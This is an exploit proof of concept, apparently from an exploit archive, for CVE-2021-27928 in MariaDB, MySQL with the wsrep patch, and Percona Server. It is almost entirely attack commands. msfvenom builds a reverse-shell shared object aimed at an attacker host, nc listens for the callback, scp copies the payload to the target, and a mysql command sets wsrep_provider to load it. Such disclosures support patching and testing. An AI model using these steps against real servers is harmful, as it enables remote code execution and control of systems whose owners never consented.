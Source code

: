 EXP
---

    # Exploit Title: MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command Execution
    # Date: 03/18/2021
    # Exploit Author: Central InfoSec
    # Version: MariaDB 10.2 before 10.2.37, 10.3 before 10.3.28, 10.4 before 10.4.18, and 10.5 before 10.5.9; Percona Server through 2021-03-03; and the wsrep patch through 2021-03-03 for MySQL
    # Tested on: Linux
    # CVE : CVE-2021-27928

    # Proof of Concept:

    # Create the reverse shell payload
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so

    # Start a listener
    nc -lvp <port>

    # Copy the payload to the target machine (In this example, SCP/SSH is used)
    scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so

    # Execute the payload
    mysql -u <user> -p -h <ip> -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'